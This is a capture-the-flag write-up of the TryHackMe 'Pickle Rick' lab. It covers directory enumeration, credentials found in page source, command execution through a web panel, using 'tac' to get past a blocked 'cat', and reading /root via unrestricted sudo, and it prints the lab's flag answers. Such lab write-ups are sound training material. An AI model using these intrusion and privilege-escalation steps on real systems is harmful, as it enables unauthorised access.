 # Pickle Rick Room Writeup
#pentest/tryhackme

Navigating to the main page informs us that we need to find 3 ingredients to turn Rick back into a human. Classic….

Let's see if we can find anything interesting on the page source.

```html
...
background-image: url("assets/rickandmorty.jpeg");
...
  <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
```

We get a free username and the assets directory, not bad! 
Let's run **dirsearch** and try to find other interesting directories.

```bash
$ python3 dirsearch.py -u <machine-ip> --extensions-list
Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 8688
...
[20:33:32] 301 -  313B  - /assets  ->  http://10.10.31.132/assets/                                                
[20:34:18] 200 -    1KB - /index.html                                                                          
[20:34:27] 200 -  882B  - /login.php                                                                    
[20:35:01] 200 -   17B  - /robots.txt 
...
```

Interesting! What do we have in **/robots.txt**?

```html
Wubbalubbadubdub
```

Hey, what is this? A password potentially? Let’s run  **nmap** and see if it can help us figure out another service or port. Let’s find out services versions with `-sV` .

```bash
kali@kali:~$ nmap -sV <machine-ip>
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Nothing much here… time to explore **login.php** and try our credentials.
We are in! It seems we can execute commands on the host machine, pretty neat!

```
> ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

> cat Sup3rS3cretPickl3Ingred.txt
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.

>tac Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair

> ls /home
rick
ubuntu

> ls /hone/rick
second ingredients

> tac /home/rick/'second ingredients'
1 jerry tear

> ls /root
```

Nothing in root? I doubt it. Which permissions do we have as sudo?

```shell
> sudo -l
...
User www-data may run the following commands on ip-10-10-31-132.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

That’s crazy, we can run anything as sudo!

```shell
> sudo ls /root
3rd.txt
snap

> sudo tac /root/3rd.txt
3rd ingredients: fleeb juice
```

We did it! 